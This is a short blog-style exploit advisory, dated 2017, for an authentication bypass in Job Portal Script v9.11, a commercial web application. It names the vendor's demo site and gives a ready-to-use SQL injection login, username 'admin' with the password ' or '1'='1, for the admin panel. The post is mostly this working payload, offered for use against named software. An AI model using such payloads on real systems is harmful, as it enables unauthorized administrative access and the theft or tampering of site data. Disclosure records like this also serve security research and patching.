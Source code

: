 ```yaml
---
layout: post
title: Job Portal Script v9.11 Authentication bypass - 12.01.2017
---
```


<br>Authentication bypass should give you access to the admin area.
<br># Vulnerability: Job Portal Script v9.11 Authentication bypass
<br># Date: 12.01.2017
<br># Software link: http://itechscripts.com/job-portal-script/
<br># Demo:  http://job-portal.itechscripts.com
<br># Price: 199$
<br># Category: webapps
<br># Exploit Author: Dawid Morawski
<br># Website: http://www.morawskiweb.pl
<br># Contact: dawid.morawski1990@gmail.com
<br>#######################################
<br>
<br>1. Description
<br>Authentication bypass should give you access to the admin area.
 
<br>Go to http://localhost/[PATH]/admin/index.php and set:
<br> 
<br>Username: admin
<br>Password: ' or '1'='1

